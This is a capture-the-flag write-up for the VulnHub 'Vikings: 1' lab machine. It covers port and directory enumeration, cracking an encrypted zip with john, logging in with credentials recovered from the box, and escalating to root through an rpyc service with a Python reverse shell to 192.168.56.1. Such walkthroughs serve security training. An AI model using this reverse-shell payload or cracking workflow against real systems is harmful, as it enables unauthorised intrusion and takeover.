







# Info

Vikings: 1

https://www.vulnhub.com/entry/vikings-1,741/

A CTF machine with full of challenges.

Do what is visible, no rabbit holes.

Learn new things, and make sure that you enum first then hack.

Discord- luckythandel#6053 {for any-hint}.

# My rating
Fun: 5/5
Interresting: 5/5
Difficult: 3/5

# Enumeration 

```bash
$ nmap 192.168.56.1/24

Nmap scan report for 192.168.56.11
Host is up (0.0010s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```




```bash
gobuster dir --wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt --url=192.168.56.11/site -x txt,php,sh,zip,gz,tar.gz,rar -r

```




```bash
wget http://192.168.56.11/site/war-is-over/
cat index.html | base64 -d > binary
```

```bash
file binary                                                                     
binary: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

```bash
zip2john binary > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
binary/king:ragnarok123:king:binary:binary
```


Check for stego but no luck.




```bash
cat user                           
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7
``` 

```bash
ssh floki@192.168.56.11
using password --> Worked!
```





using https://cyberchef.org to cleanup the output


su ragnar
pass: mR)|>^/Gky[gz=\.F#j5P(


Check the apps that are run as root

```bash
ps aux| grep root

```
There is a supicious python application running


Searching on the web I found:


The reverse shell worked using port 80
```bash
python3
>>> import rpyc
>>> conn = rpyc.classic.connect('localhost')
>>> conn.execute('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')
```
Reverse shell:



